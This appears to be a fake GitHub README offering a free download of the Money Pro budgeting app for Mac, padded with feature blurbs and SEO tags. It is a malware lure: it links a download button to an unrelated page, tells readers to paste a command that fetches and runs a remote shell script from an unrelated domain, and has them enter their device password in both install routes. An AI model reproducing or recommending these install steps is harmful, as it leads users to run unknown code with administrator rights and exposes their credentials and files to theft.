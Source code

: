 # Money Pro — Download For Mac OS 🤑

Manage your finances effortlessly with Money Pro for Mac! Follow the simple instructions below to install this powerful budgeting app and take control of your money.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/moneypro)

If the download button doesn't work, follow the terminal installation instructions below.

## 📦 How to Install Money Pro For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get

- 🧾 **Budget Tracking**: Create and monitor budgets for multiple categories with real-time updates.
- 📊 **Reports & Insights**: Generate detailed financial reports to analyze spending habits.
- 💸 **Bill Management**: Schedule and track recurring bills to avoid late payments.
- 💳 **Multi-Currency Support**: Manage finances in various currencies with automatic conversions.
- 🔄 **Sync Across Devices**: Seamlessly sync data between your Mac, iPhone, and iPad.
- 🔒 **Data Security**: Protect your financial data with robust encryption and password options.

---

## About Money Pro

Money Pro for Mac is a comprehensive financial management tool designed to simplify budgeting, bill tracking, and expense monitoring. Whether you're managing personal finances or small business accounts, Money Pro offers an intuitive interface and powerful features to keep your financial life organized. With its seamless integration across Apple devices, you can access your data anytime, anywhere. The app supports keywords like *money management*, *budget planner*, and *finance tracker* to ensure you find the right tools for your needs.

The app’s budgeting capabilities allow users to set spending limits across various categories, such as groceries, utilities, or entertainment. By using Money Pro, you can visualize your financial health through customizable reports that highlight trends and opportunities for savings. Its *free download* availability makes it accessible for Mac users looking to streamline their finances without upfront costs.

For those juggling multiple currencies, Money Pro’s *multi-currency support* is a game-changer. It automatically converts transactions using real-time exchange rates, making it ideal for travelers or international business owners. The app also prioritizes *data security*, employing encryption to safeguard sensitive information, ensuring peace of mind for users.

Money Pro stands out with its ability to sync data across devices via iCloud, allowing you to update your budget on your Mac and view it instantly on your iPhone or iPad. This feature, combined with its *personal finance* tools, makes it a top choice for users searching for a reliable *budgeting app* that integrates seamlessly into their Apple ecosystem.

### Why Choose Money Pro?

Money Pro’s key advantage is its balance of simplicity and depth. Unlike other apps, it combines an easy-to-use interface with advanced features like *expense tracking* and *financial planning*. Its *Mac OS compatibility* ensures smooth performance, while the *free download* option lowers the barrier to entry. Whether you're a beginner or a seasoned budgeter, Money Pro’s versatility and robust feature set make it a standout choice for *money management*.

---

## 🖼 Preview

![Dashboard Overview](https://money.pro/img/moneypro_mac_budget.jpg)
*View your budget, expenses, and reports in a sleek, user-friendly dashboard.*

![Budget Planner](https://money.pro/img/moneypro_mac_calendar.jpg)
*Easily set and track budgets for various spending categories.*

![Bill Tracking](https://money.pro/img/moneypro_mac_reports_bar.jpg)
*Schedule and manage recurring bills to stay on top of payments.*

---

## 🔍 Tags

money pro free download, money pro, money pro for mac, money pro software, money for macbook, money pro free, money pro download, money pro fre download, moneyguidepro, pro money, money pro mac, money pro for mac, my money pro
